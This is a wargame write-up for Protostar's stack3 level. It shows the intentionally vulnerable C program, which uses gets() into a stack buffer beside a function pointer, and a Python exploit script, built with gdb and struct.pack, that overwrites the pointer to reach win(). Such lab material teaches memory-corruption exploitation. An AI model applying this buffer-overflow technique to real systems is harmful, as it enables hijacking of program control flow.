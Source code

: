 # Stack3
## Briefing
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hint:

both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
## Solution
Stack3 is a slightly easier ret2win.
Easier because we aren't actually overwriting the return address, but a variable that will call a function for us.
This time we should make an actual exploit script, instead of using python from the command line.
```
import struct

exploit = ''
exploit += 'A' * 68

print(exploit)
```
Now every time we want to run this into the program we can use, `python file.py > input`
`./stack3 < input`

`calling function pointer, jumping to 0x41414141`
We have overwritten the ret variable, and that variable has called the function at memory address 0x41414141, unfortunately that is not where are function is.
We can use GDB to find the position of the 'win' function and then jump there with our exploit.

`gdb ./stack3`

`(gdb) p win`

The `p win` command gives us the position of win, which we can see now is at

`$1 = {void (void)} 0x8048424 <win>`

0x8048424

This is where the 'struct' python module comes in!
We edit our script to use this memory address
```
import struct
rp = struct.pack('<L', 0x8048424)

exploit = ''
exploit += 'A' * 64
exploit += rp

print(exploit)
```
The struct.pack changes it into the little endian byte order for us, and then we can run the binary with this script as input.

`code flow successfully changed`

Win!
